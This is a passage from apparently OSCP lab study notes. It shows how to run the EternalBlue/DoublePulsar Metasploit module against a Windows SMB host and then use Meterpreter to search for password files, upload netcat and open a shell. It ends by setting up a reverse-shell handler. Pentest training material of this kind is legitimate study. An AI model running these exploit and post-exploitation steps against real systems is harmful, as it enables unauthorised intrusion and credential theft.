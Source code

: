     3.  Move the exploit to `/usr/share/metasploit-framework/modules/exploits/windows/smb` or `~/.msf4/modules/exploits/windows/smb`

    4.  Start metasploit console

    *   I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.

        use exploit/windows/smb/eternalblue_doublepulsar
        msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
        RHOST => 10.10.10.10
        msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
        PROCESSINJECT => spoolsv.exe
        msf exploit(eternalblue_doublepulsar) > run

*   Experimenting with Meterpreter

    *   Get system information from Meterpreter Shell

        `sysinfo`

    *   Get user id from Meterpreter Shell

        `getuid`

    *   Search for a file

        `search -f *pass*.txt`

    *   Upload a file

        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    *   Download a file

        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    *   Invoke a command shell from Meterpreter Shell

        `shell`

    *   Exit the meterpreter shell

        `exit`

*   Metasploit Exploit Multi Handler

    *   multi/handler to accept an incoming reverse_https_meterpreter

            payload  
            use exploit/multi/handler  
